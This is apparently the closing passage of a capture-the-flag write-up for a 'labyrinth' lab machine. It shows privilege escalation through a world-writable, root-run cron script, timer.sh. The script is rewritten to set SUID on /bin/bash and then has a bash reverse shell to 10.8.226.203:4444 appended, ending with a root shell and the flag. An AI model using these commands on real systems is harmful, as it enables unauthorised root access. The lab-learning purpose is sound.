 lets explore Minotaur's home folder....nothing useful

where is that timer they were talking about???

`find / -perm u=s 2> /dev/null`

the process hanged....geez (that shell is not very...stable)...anyway not very useful

Manualy exploring then...we start from `/` folder and we see a `"timers"` folder

```
cd timers
daemon@labyrinth:/timers$ls -al
ls -al
total 12
drwxrwxrwx 2 root root 4096 jún 15 18:01 .
drwxr-xr-x 26 root root 4096 nov 9 13:37 ..
-rwxrwxrwx 1 root root 70 jún 15 18:01 timer.sh
```

we have all permissions on timer.sh

```
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```

It appends this to the txt file...probably running as a cron task (it updated in live)

But look at the Owner...ROOT

if we add a shell to it we can catch a connection as root...or more simply make it spawn a shell directly

```
echo '
#!/bin/bash
chmod +s /bin/bash
' > timer.sh (or >> to just append)
```

Basically we use the root power of this script to make bash a SUID (as we can)

and now we can just...

`/bin/bash -p`

Ok that did not work for me So i decided to just try the shell too

```
echo '
#!/bin/bash
bash -i >& /dev/tcp/10.8.226.203/4444 0>&1
' >> timer.sh //port 4444
```

Now we wait...(gotta be patient there)

```
id
uid=0(root) gid=0(root) groups=0(root)
root@labyrinth:~#

root@labyrinth:~# cat da_king_flek.txt
```

Flag #4

```
cat da_king_flek.txt
fL4G{escaped_the_labyrinth}
```

That room was just cool
